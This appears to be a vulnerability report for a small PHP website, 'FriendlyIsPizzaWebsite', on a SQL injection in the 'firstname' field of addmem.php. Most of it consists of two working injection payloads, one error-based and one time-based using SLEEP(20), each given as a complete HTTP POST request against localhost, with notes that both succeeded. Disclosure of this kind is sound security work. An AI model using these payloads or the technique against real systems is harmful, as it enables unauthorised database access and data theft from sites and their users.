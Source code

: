 BUG_Author: AureliusLia

Vulnerability File: /FriendlyIsPizzaWebsite/addmem.php

POST parameter 'firstname' exists SQL injection vulnerability

Payload1:firstname=a' or (select 1 from(select count(*),concat(0x71727374,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g

```
POST /FriendlyIsPizzaWebsite/addmem.php HTTP/1.1
Host: localhost
Origin: http://localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: close
Cookie: PHPSESSID=2kc1au0d975mouepdpqqpeqdn4
Upgrade-Insecure-Requests: 1

firstname=a' or (select 1 from(select count(*),concat(0x71727374,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g
```

Injection success based on errors

![image](https://github.com/AureliusLia/bug_report/blob/main/pictures/sql1.png)

Payload2:firstname=a' and (select 2 from (select(SLEEP(20)))b) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g

```
POST /FriendlyIsPizzaWebsite/addmem.php HTTP/1.1
Host: localhost
Origin: http://localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Connection: close
Cookie: PHPSESSID=2kc1au0d975mouepdpqqpeqdn4
Upgrade-Insecure-Requests: 1

firstname=a' and (select 2 from (select(SLEEP(20)))b) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g
```

Server response time is 20 seconds

![image](https://github.com/AureliusLia/bug_report/blob/main/pictures/sql2.png)
